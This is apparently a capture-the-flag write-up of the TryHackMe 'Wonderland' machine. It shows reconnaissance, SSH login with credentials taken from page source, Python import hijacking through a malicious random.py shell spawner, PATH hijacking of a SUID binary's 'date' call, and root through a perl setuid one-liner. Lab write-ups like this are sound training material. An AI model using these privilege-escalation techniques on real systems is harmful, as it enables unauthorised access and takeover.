

# Wonderland Writeup
<!-- Description -->

Wonderland is a free access machine on TryHackMe with a difficulity level of Medium. 
We start the machine, get an IP address and start our attack (ofcourse after connecting
to the TryHackMe network with openvpn).

Completed on 10/02/2023
<!-- /Description -->
## Table of Contents
<!-- TOC -->
- [Wonderland - WriteUp](#wonderland-writeup)
  - [Table of Contents](#table-of-contents)
  - [Let's Get Going!](#lets-get-going)
    - [Nmap Scan](#nmap-scan)
    - [Nikto Scan](#nikto-scan)
    - [Directory Fuzzing](#directory-fuzzing)
    - [Exploring Wonderland](#exploring-wonderland)
    - [Sudoers](#sudoers)
    - [ELF x64](#elf-x64)
    - [Root we get](#root-we-get)

<!-- /TOC -->
---
## Let's Get Going
### Nmap Scan
We start as usual with the nmap scan
```
$ nmap -sC -sV -oN nmap/initial $IP     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-30 16:10 EST
Nmap scan report for 10.10.138.169
Host is up (0.11s latency).
Not shown: 918 closed tcp ports (conn-refused), 80 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8eeefb96cead70dd05a93b0db071b863 (RSA)
|   256 7a927944164f204350a9a847e2c2be84 (ECDSA)
|_  256 000b8044e63d4b6947922c55147e2ac9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As the port 80 is open, I decided to check the website myself.


The page source reveals nothing and checking common file names and directories returned nothing. So I decided to continue with a nikto scan and some directory fuzzing with ffuf.
### Nikto Scan
```
$ nikto -h http://$IP              
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.138.169
+ Target Hostname:    10.10.138.169
+ Target Port:        80
+ Start Time:         2023-01-30 16:16:10 (GMT-5)
---------------------------------------------------------------------------
+ Server: No banner retrieved
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3092: /img/: This might be interesting...
+ 7889 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2023-01-30 16:39:43 (GMT-5) (1413 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
The nikto scan returned no results.
### Directory Fuzzing
```
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$IP/FUZZ -e ".php,.html"      

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.138.169/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Extensions       : .php .html 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 259ms]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 188ms]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 157ms]
```
The directory fuzzing was successful and we find a way to continue. Upon visiting /r we got the following
```
Keep Going.
"Would you tell me, please, which way I ought to go from here?"
```
The /r was kinda odd as a directory name, so I tried /r/a and got a result as well! 
```
Keep Going.
"That depends a good deal on where you want to get to," said the Cat.
```
/r/a/a gave no results while /r/a/b was successful. It seems like the story is playing out within the subdirectories. You can notice as well that /r/a/b kinda build up to the word "rabbit" which was the title in the root directory page. And eventually, visiting /r/a/b/b/i/t returns a hint.


So Alice must now open the door to enter wonderland. In the page source, you find as well what looks like credentials
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
After doing some directory fuzzing and getting no results, I decided to search elsewhere. The final page I found, mentions a door to access wonderland which could mean the machine and a way to access remote machines is SSH! Using the found credentials we successfuly login to the machine as Alice.
```bash
$ ssh alice@$IP
Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$
```
### Exploring Wonderland
Executed some commands to gather info about the machine
```bash
$ uname -a
Linux wonderland 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
Kinda old linux kernel version
```
$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
```
Ubuntu release old aswell but not known to have critical vulnerabilities
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash
alice:x:1001:1001:Alice Liddell,,,:/home/alice:/bin/bash
hatter:x:1003:1003:Mad Hatter,,,:/home/hatter:/bin/bash
rabbit:x:1002:1002:White Rabbit,,,:/home/rabbit:/bin/bash

$ ls /home
alice  hatter  rabbit  tryhackme
```
So the machine has 3 users in total (other than tryhackme).

### Sudoers 
One thing I always check when I get access to a new machine, is the command "sudo -l" since its really easy for the admin to mess up with it and allow us to get access to things we shouldn't. Lucky for me this was the case.
```
$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
So it says we are allowed to execute with python the readonly file "walrus_and_the_carpenter.py" (code below) as user "rabbit".
```python3
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

...
"""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```
Is it possible for us to mess up with the execution of this script? Well, one thing we can notice is that the path to import the random library is not specified. So if we were to create the file "random.py" in the directory where the script is then execute it, python would prioritize this file over the "random.py" in the PYTHONPATH. 

I created random.py in a way that when called, would spawn for us a shell as follows
```python3
import pty
def choice(idontcare):
    pty.spawn("sh")
    exit()
```
Now we execute 
```bash
$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
and we got ourselves a shell as the user "rabbit"!
```
$ whoami
rabbit
```
### ELF x64
After getting a shell as the new user, we start searching around to see what's available for us. After visiting "/home/rabbit", we find an executable file called "teaParty". We try running the file and we get the following output


The script waits for us aswell to send some input in STDIN. After typing anything we get an error


This surely looks like a buffer overflow vulnerability! The executable has the SUID bit set as well which means that a successful exploitation could grant us root access. 

To continue we try and check if gdb is installed which was not the case. "readelf" tool which shows info about the executable was not installed either. Only thing I could do was to send the file to my machine and try and examine it locally (even though it would be really hard to exploit the buffer overflow without a disassembler but perhaps I could find something hidden in the file). 

After sending the file, I started by checking the executable's headers:

```
$ readelf -h teaParty
ELF Header:
  Magic:   7f 45 4c 46 02 01 01 00 00 00 00 00 00 00 00 00 
  Class:                             ELF64
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              DYN (Position-Independent Executable file)
  Machine:                           Advanced Micro Devices X86-64
  Version:                           0x1
  Entry point address:               0x1090
  Start of program headers:          64 (bytes into file)
  Start of section headers:          14896 (bytes into file)
  Flags:                             0x0
  Size of this header:               64 (bytes)
  Size of program headers:           56 (bytes)
  Number of program headers:         11
  Size of section headers:           64 (bytes)
  Number of section headers:         30
  Section header string table index: 29
```

So its an ELF x64 executable. Even though I hadn't wroked with anything other than x86 executables, I wanted to give it a try. I disassembled it with gdb:



First thing that stood out to me was that there's no testing instructions (neither cmp nor test) so assuming that the file would print out something if our input was correct, is wrong. 

So what is this file really doing..? After putting in some breaks and checking the registers to see where the memory corruption was happening from the input, I found nothing in particular. No trace for our input in any critical register. Where's this "Segmentation fault" error coming from? I decided to break each "puts" instruction to see what it outputs (which is used to write strings to stdout). After reaching the final puts I got the following:
```
(gdb) b *0x00005555555551bd
Breakpoint 1 at 0x5555555551bd
(gdb) b* 0x00005555555551c2
Breakpoint 2 at 0x5555555551c2
(gdb) r
...
Breakpoint 1, 0x00005555555551bd in main ()
(gdb) c
Continuing.
Segmentation fault (core dumped)

Breakpoint 2, 0x00005555555551c2 in main ()
```
So afterall, the "Segmentation fault" error was just printed out and not really the result of an error. How silly.. 

Okay so at this point I decided to abandon the file and search elsewhere on the machine. After searching for a while and finding nothing, I eventually returned to the file which was the only lead i had to continue. After re-examining it with gdb, I noticed a message that was printed out during the execution that I hadn't focused on before.
```
(gdb) r
Starting program: /home/kali/thm/wonderland/teaParty 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to the tea party!
The Mad Hatter will be here soon.
[Detaching after vfork from child process 38426]
```
Our program is creating a child process. So what other thing is actually being executed here? After searching around about it, I found that its possible to follow and catch the child process with GDB. 

First we break the instruction which is executing the child process (which is instruction 'system' at <+43>) and break aswell the instruction right after it. After reaching the first break, we write in gdb the following command and we continue
```
set follow-fork-mode child
(gdb) c
process 41543 is executing new program: /usr/bin/dash

Thread 2.1 "sh" received signal SIGSEGV, Segmentation fault.
[Switching to process 41543]
0x00007ffff7fd94d9 in resolve_map (r_type=1, version=0x7ffff80356f0, ref=0x7fffffffda98, scope=0x7ffff7ffe668, l=0x7ffff7ffe2e0) at ./elf/dl-reloc.c:188
188     ./elf/dl-reloc.c: No such file or directory.

```
So the program created a new process with PID 41543. We check it with the "ps" command:
```
$ ps -auxw | grep '41543'
kali       41543  0.0  0.0   2524   400 pts/3    t    20:19   0:00 sh -c /bin/echo -n 'Probably by ' && date --date='next hour' -R
```
We can see that the program is actually executing a bash command! Its like we are running a shell script. If we manipulate the environment path we execute whatever we want! The exploitation steps went as follows:
```bash
rabbit@wonderland:/tmp$ echo "/bin/bash ; " > /tmp/date
rabbit@wonderland:/home/rabbit$ /bin/chmod +x /tmp/date
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by bash: groups: command not found
Command 'lesspipe' is available in the following places
 * /bin/lesspipe
 * /usr/bin/lesspipe
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
lesspipe: command not found
Command 'dircolors' is available in '/usr/bin/dircolors'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
dircolors: command not found
hatter@wonderland:/home/rabbit$ whoami
hatter
```
The shell command executed by the ELF calls the command "date" without specifying the full path "/bin/date". The exploit would be to create our own command "date" and change the environment path with export. Once the script calls "date", it will run the one we created. It would be basically creating a shell for us. And just like that we got ourselves a shell with user hatter

### Root we get
Since we got access to every normal account on the machine, there was nothing left for us but to get root, which will secure for us the flags. After going through the usual privilege escalation checklist I found something interesting in capabilities
```
$ getcap -r / 2>/dev/null
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```
perl has the setuid capability! Which means that we could be able to create a shell and setuid to 0 which will give us a shell with root priveleges!
```
hatter@wonderland:~$ ls -al /usr/bin/perl
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
```
And users in group "hatter" are able to run perl! We are actually done here, lets get a perl script that does just that and run it
```perl
hatter@wonderland:~$ perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```
After running the command, we get permission denied error. Weird. We run "id"
```
hatter@wonderland:/home/hatter$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
The previous script which spawned a shell for us as hatter had set our gid to "1002" which means we cant just yet run perl.
After checking hatter's home directory, we find a file "password.txt". Using this file we are able to relog in properly as Hatter.
```bash 
hatter@wonderland:/home/hatter$ su hatter
Password: 
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```
We now finish by running our perl script and becoming root!
```
hatter@wonderland:~$ perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# whoami
root
```
### Conclusion
Just wanted to share this :D
```bash   
root@wonderland:/home/root$ exit 
exit
hatter@wonderland:/home/hatter$ exit                                                                                
exit                                                                                                                
Fri Feb 10 02:12:46 UTC 2023                                                                                        
Ask very nicely, and I will give you some tea while you wait for him                                                

Segmentation fault (core dumped)                                                                                     
rabbit@wonderland:/home/rabbit$ exit
exit                                                                                                                                                                                                                                 
$ exit                                                                                                              
alice@wonderland:~$ exit
```
Overall, it was a very instructive and informative challenge :)

---

> Any feedback would be appreciated. Thank you !
